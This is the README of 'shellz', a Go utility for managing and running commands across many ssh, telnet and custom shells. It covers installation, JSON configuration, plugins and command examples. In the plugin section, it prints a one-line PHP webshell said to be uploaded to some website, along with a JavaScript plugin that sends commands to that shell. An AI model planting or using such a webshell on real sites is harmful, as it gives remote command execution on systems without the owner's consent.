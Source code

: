 <p align="center">
  <img alt="shellz" src="https://raw.githubusercontent.com/evilsocket/shellz/master/logo.png" />
  <p align="center">
    <a href="https://github.com/evilsocket/shellz/releases/latest"><img alt="Release" src="https://img.shields.io/github/release/evilsocket/shellz.svg?style=flat-square"></a>
    <a href="https://github.com/evilsocket/shellz/blob/master/LICENSE.md"><img alt="Software License" src="https://img.shields.io/badge/license-GPL3-brightgreen.svg?style=flat-square"></a>
    <a href="https://travis-ci.org/evilsocket/shellz"><img alt="Travis" src="https://img.shields.io/travis/evilsocket/shellz/master.svg?style=flat-square"></a>
    <a href="https://goreportcard.com/report/github.com/evilsocket/shellz"><img alt="Go Report Card" src="https://goreportcard.com/badge/github.com/evilsocket/shellz?style=flat-square&fuckgithubcache=1"></a>
  </p>
</p>

`shellz` is a small utility to track and control your ssh, telnet, web and custom shells ([demo](https://www.youtube.com/watch?v=ZjMRbUhw9z4)).

## Installation

A [precompiled version is available for each release](https://github.com/evilsocket/shellz/releases), alternatively you can use the latest version of the source code from this repository in order to build your own binary.

### From Sources

Make sure you have a correctly configured **Go >= 1.8** environment, that `$GOPATH/bin` is in `$PATH` and then:

    $ go get -u github.com/evilsocket/shellz/cmd/shellz

This command will download shellz, install its dependencies, compile it and move the `shellz` executable to `$GOPATH/bin`.

## How to Use

The tool will use the `~/.shellz` folder to load your identities and shells json files, running the command `shellz` the first time will create the folder and the `idents` and `shells` subfolders for you. Once both `~/.shellz/idents` and `~/.shellz/shells` folders have been created, you can start by creating your first identity json file, for instance let's create `~/.shellz/idents/default.json` with the following contents:

```json
{
    "name": "default",
    "username": "evilsocket",
    "key": "~/.ssh/id_rsa"
}
```

As you can see my `default` identity is using my SSH private key to log in the `evilsocket` user, alternatively you can specify a `"password"` field instead of a `"key"`.

Now let's create our first shell json file ( `~/.shellz/shells/media.json` ) that will use the `default` identity we just created to connect to our home media server (called `media.server` in our example):

```json
{
    "name": "media-server",
    "host": "media.server",
    "groups": ["servers", "media", "whatever"],
    "port": 22,
    "identity": "default"
}
```

Shells can (optionally) be grouped (with a defaut `all` group containing all of them) and, by default, they are considered `ssh`, in which case you can also specify the ciphers your server supports:


```json
{
    "name": "old-server",
    "host": "old.server",
    "groups": ["servers", "legacy"],
    "port": 22,
    "identity": "default",
    "ciphers": ["aes128-cbc", "3des-cbc"]
}
```

Also the `telnet` protocol is supported:

```sh
cat ~/.shellz/shells/tnas.json
```

```json
{
    "name": "tnas",
    "host": "tnas.local",
    "port": 23,
    "identity": "admin-tnas",
    "type": "telnet"
}
```

### Plugins

Instead of the two default types, `ssh` and `telnet`, you can specify a custom name, in which case shellz will try to use a user plugin. Let's start by creating a new shell json file `~/.shellz/shells/custom.json` with the following contents:

```json
{
    "name": "custom",
    "host": "http://www.imvulnerable.gov/uploads/sh.php",
    "identity": "empty",
    "port": 80,
    "type": "mycustomshell"
}
```

As you probably noticed, the `host` field is the full URL of a very simple PHP webshell uploaded on some website:

```php
<?php system($_REQUEST["cmd"]); die; ?>
```

Also, the `type` field is set to `mycustomshell`, in this case `shellz` will try to load the file `~/.shellz/plugins/mycustomshell.js` and use it to create a session and execute a command. 

A `shellz` plugin must export the `Create`, `Exec` and `Close` functions, this is how `mycustomshell.js` looks like:

```js
var headers = {
    'User-Agent': 'imma-shellz-plugin'
};

/*
 * The Create callback is called whenever a new command has been queued
 * for execution and the session should be initiated, in this case we 
 * simply return the main context object, but it might be used to connect
 * to the endpoint and store the socket on a more complex Object.
 */
function Create(ctx) {
    log.Debug("Create(" + ctx + ")");
    return ctx;
}

/*
 * Exec is called for each command, the first argument is the context object
 * returned from the Create callback, while the second is a string with the
 * command itself.
 */
function Exec(ctx, cmd) {
    log.Debug("running " + cmd + " on " + ctx.Host);
    /* 
     * OR
     *
     * var resp = http.Post(ctx.Host, headers, {"cmd":cmd});
     */
    var resp = http.Get(ctx.Host + "?cmd=" + cmd, headers)
    if( resp.Error ) {
        log.Error("error while running " + cmd + ": " + resp.Error);
        return resp.Error;
    }
    return resp.Raw;
}

/*
 * Used to finalize the state of the object (close sockets, etc).
 */
function Close(obj) {
    log.Debug("Close(" + ctx + ")");
}
```

Other than the `log` interface and the `http` client, also a `tcp` client is available with the following API:

```js
// this will create the client
var c = tcp.Connect("1.2.3.4:80");
if( c == null ) {
    log.Error("could not connect!");
    return;
}

// send some bytes
c.Write("somebyteshere");

// read some bytes until a newline
var ret = c.ReadUntil("\n");
if( ret.Error != null ) {
    log.Error("error while reading: " + err);
} else {
    // print results
    log.Info("res=" + ret.Raw);
}

// always close the socket
c.Close();
```

### Examples

List available identities, plugins and shells:

    shellz -list

Enable the shells named machineA and machineB:

    shellz -enable machineA, machineB

Enable shells of the group `web`:

    shellz -enable web

Disable the shell named machineA (commands won't be executed on it):

    shellz -disable machineA

Test all shells and disable the not responding ones:

    shellz -test

Test two shells and disable them if they don't respond within 1 second:

    shellz -test -on "machineA, machineB" -connection-timeout 1s

Run the command `id` on each shell ( with `-to` default to `all`):

    shellz -run id

Run the command `id` on a single shell named `machineA`:

    shellz -run id -on machineA

Run the command `id` on `machineA` and `machineB`:

    shellz -run id -on 'machineA, machineB'

Run the command `id` on shells of group `web`:

    shellz -run id -on web

Run the command `uptime` on every shell and append all outputs to the `all.txt` file:

    shellz -run uptime -to all.txt

Run the command `uptime` on every shell and save each outputs to a different file using per-shell data (every field referenced between `{{` and `}}` will be replaced by the json field of the shell object):

    shellz -run uptime -to "{{.Identity.Username}}_{{.Name}}.txt"

For a list of all available flags and some usage examples just type `shellz` without arguments.

## License

Shellz was made with ♥  by [Simone Margaritelli](https://www.evilsocket.net/) and it's released under the GPL 3 license.
